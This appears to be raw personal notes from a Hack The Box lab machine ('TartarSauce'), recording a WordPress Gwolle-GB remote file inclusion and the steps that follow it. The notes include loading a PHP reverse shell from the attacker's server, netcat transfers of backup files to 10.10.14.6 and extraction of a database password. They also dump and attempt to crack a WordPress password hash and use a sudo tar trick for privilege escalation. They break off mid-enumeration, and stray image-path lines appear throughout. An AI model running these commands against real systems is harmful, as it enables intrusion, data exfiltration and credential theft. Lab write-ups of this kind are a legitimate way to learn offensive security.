 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

searchsploit gwolle

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

kali@kali:/opt/shells/php-reverse-shell-1.0$ sudo python3 -m http.server 80

10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/php-reverse-shell.php

10.10.10.88 - - [15/Jan/2021 16:03:05] "GET /php-reverse-shell.phpwp-load.php HTTP/1.0" 404 

mv php-reverse-shell.php wp-load.php

10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6



www-data@TartarSauce:/$ cd /home
www-data@TartarSauce:/home$ find .
.
./onuma
find: './onuma': Permission denied
www-data@TartarSauce:/home$ cd onuma/
bash: cd: onuma/: Permission denied
www-data@TartarSauce:/home$ ls

looking for credentials in config file of the server, linPEAS will also do that

wget 10.10.14.6/linpeas.sh

[+] Modified interesting files in the last 5mins (limit 100)
/var/log/kern.log
/var/log/syslog
/var/log/auth.log
/var/backups/onuma_backup_test.txt
/var/backups/onuma-www-dev.bak

[+] Readable *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .gitconfig, .git-credentials, .git, .svn, .rhosts, hosts.equiv
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data
-rw-r--r-- 1 root root 2188 Aug 31  2015 /etc/bash.bashrc
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 root root 655 May 16  2017 /etc/skel/.profile

www-data@TartarSauce:/dev/shm$ file /var/backups/onuma-www-dev.bak
/var/backups/onuma-www-dev.bak: gzip compressed data, last modified: Fri Jan 15 15:10:02 2021, from Unix

www-data@TartarSauce:/dev/shm$ cat /var/backups/onuma_backup_test.txt
------------------------------------------------------------------------
Auto backup backuperer backup last ran at : Fri Jan 15 10:10:02 EST 2021
------------------------------------------------------------------------

 nc -lvnp 8888 > backup.zip

 nc 10.10.14.6 8888 < /var/backups/onuma-www-dev.bak

md5sum backup.zip 
88e373fe9719ac58bd96f159da920a72  backup.zip

www-data@TartarSauce:/dev/shm$ md5sum /var/backups/onuma-www-dev.bak
88e373fe9719ac58bd96f159da920a72  /var/backups/onuma-www-dev.bak



kali@kali:~/htb/boxes/tartarsauce/10.10.10.88/backup$ file backup
backup: POSIX tar archive (GNU)

kali@kali:~/htb/boxes/tartarsauce/10.10.10.88/backup$ tar xf backup
kali@kali:~/htb/boxes/tartarsauce/10.10.10.88/backup$ ls
backup  backup.zip  var

grep -irn password .

./var/www/html/webservices/wp/wp-config.php:29:define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');

www-data@TartarSauce:/dev/shm$ netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      107        23291       -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          23244       -           

www-data@TartarSauce:/dev/shm$ mysql -uroot -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
www-data@TartarSauce:/dev/shm$ mysql -uadmin -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'admin'@'localhost' (using password: YES)

./var/www/html/webservices/wp/wp-config.php:26:define('DB_USER', 'wpuser');



mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
2 rows in set (0.00 sec)

mysql> show tables;
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
14 rows in set (0.00 sec)

mysql> select * from wp_users
    -> ;
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

https://blog.wpsec.com/cracking-wordpress-passwords-with-hashcat/

hashcat -m400 "$P$BBU0yjydBz9THONExe2kPEsvtjStGe1" rockyou.txt

exhausted

www-data@TartarSauce:/dev/shm$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
www-data@TartarSauce:/dev/shm$ ls -lah /bin/tar 
-rwxr-xr-x 1 root root 404K Nov 17  2016 /bin/tar
www-data@TartarSauce:/dev/shm$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

https://gtfobins.github.io/gtfobins/tar/

sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

onuma@TartarSauce:/dev/shm$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

onuma@TartarSauce:~$ ls
shadow_bkp  user.txt

onuma@TartarSauce:~$ ls -lah 
total 48K
drwxrw---- 7 onuma onuma 4.0K Jan 15 10:42 .
drwxr-xr-x 3 root  root  4.0K Feb  9  2018 ..
lrwxrwxrwx 1 root  root     9 Feb 17  2018 .bash_history -> /dev/null
-rwxrw---- 1 onuma onuma  220 Feb  9  2018 .bash_logout
-rwxrw---- 1 onuma onuma 3.8K Feb 15  2018 .bashrc
drwxrw---- 2 onuma onuma 4.0K Feb  9  2018 .cache
drwxr-x--- 3 onuma onuma 4.0K Jan 15 10:40 .config
drwx------ 2 onuma onuma 4.0K Jan 15 10:42 .gnupg
-rwxrw---- 1 onuma onuma   52 Feb 17  2018 .mysql_history
drwxrw---- 2 onuma onuma 4.0K Feb 17  2018 .nano
-rwxrw---- 1 onuma onuma  655 Feb  9  2018 .profile
drwxrw---- 2 onuma onuma 4.0K Feb 15  2018 .ssh
-rwxrw---- 1 onuma onuma    0 Feb  9  2018 .sudo_as_admin_successful
lrwxrwxrwx 1 root  root     9 Feb 17  2018 shadow_bkp -> /dev/null
-r-------- 1 onuma onuma   33 Feb  9  2018 user.txt

Possible private SSH keys were found!
/home/onuma/.config/lxc/client.key

/home/onuma/.config/lxc/client.key
/home/onuma/.config/lxc/client.crt
/home/onuma/.gnupg/pubring.gpg
/home/onuma/.gnupg/gpg.conf
/home/onuma/.gnupg/trustdb.gpg

/var/log/syslog
/var/log/auth.log



onuma@TartarSauce:~$ locate backuperer
/etc/systemd/system/multi-user.target.wants/backuperer.timer
/lib/systemd/system/backuperer.service
/lib/systemd/system/backuperer.timer
/usr/sbin/backuperer

onuma@TartarSauce:~$ cat /lib/systemd/system/backuperer.service
[Unit]
Description=Backuperer

[Service]
ExecStart=/usr/sbin/backuperer

onuma@TartarSauce:~$ file /usr/sbin/backuperer
/usr/sbin/backuperer: Bourne-Again shell script, UTF-8 Unicode text executable

nc 10.10.14.6 8888 < /usr/sbin/backuperer

nc -lvnp 8888 > backuperer.sh